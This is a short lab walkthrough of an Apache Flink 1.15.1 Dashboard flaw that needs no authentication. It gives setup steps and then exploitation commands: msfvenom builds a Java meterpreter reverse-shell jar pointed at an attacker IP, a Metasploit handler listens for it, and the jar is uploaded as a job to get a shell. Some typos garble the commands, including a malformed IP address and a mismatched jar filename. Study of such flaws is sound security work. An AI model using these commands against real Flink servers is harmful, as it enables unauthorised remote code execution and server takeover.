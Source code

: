 # Apache Flink Unauthorized Access Vulnerability

## Vulnerability Description

The Apache Flink Dashboard has no user authentication by default. An attacker can directly upload a trojan jar package through the unauthorized Flink Dashboard console and remotely execute any system command to obtain server privileges.

## Environment setup

Test version: flink-1.15.1

Modify `flink-1.15.1/conf/flink-conf.yaml`,open 8081 port.

![image-20230130110811353](../../.gitbook/assets/image-20230130110811353.png)

Start Flink:

```
start-cluster.sh
```



## Vulnerability Exploitation

Access the web page.

![image-20230130110857282](../../.gitbook/assets/image-20230130110857282.png)

Use msfvenom to generate rce.jar:

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f jar > rce.jar
Payload size: 5310 bytes
Final size of jar file: 5310 bytes
```

Configure msf listening:

```
bashCopy codemsf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 1291.68.32.130
lhost => 1291.68.32.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

Upload the `rec.jar` file at Submit New Job, click submit.

![image-20230130110921888](../../.gitbook/assets/image-20230130110921888.png)

Successful get shell.

![image-20230130110926718](../../.gitbook/assets/image-20230130110926718.png)